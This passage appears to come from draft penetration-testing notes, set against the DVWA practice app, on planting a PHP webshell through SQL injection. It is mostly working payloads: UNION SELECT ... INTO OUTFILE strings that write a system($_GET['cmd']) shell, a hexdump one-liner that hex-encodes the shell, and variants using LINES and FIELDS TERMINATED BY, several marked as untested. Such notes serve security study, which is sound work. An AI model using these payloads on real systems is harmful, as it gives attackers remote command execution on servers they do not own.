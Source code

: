 ```
Can't create/write to file '/var/html/shell.php' (Errcode: 2 "No such file or directory")
```

2. Ensure the directory has write permissions.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/shell.php'#
```

Here's the error message.

```
Can't create/write to file '/var/www/shell.php' (Errcode: 13 "Permission denied")
```

- **Save the webshell with an absolute path**

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

`<insert_screenshosts>`

- You can of course encode it with hexadecimal

```
$ echo -n "<?php system(\$_GET[\'cmd\']); ?>" | hexdump -v -e '/1 "%02x"' | sed 's/^/0x/'
0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e
```

```sql
' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

- Write a webshell via `LINES TERMINATED BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

- Write a webshell via `LINES STARTING BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' LINES STARTING BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

- Write a webshell via `FIELDS TERMINATED BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' FIELDS TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```
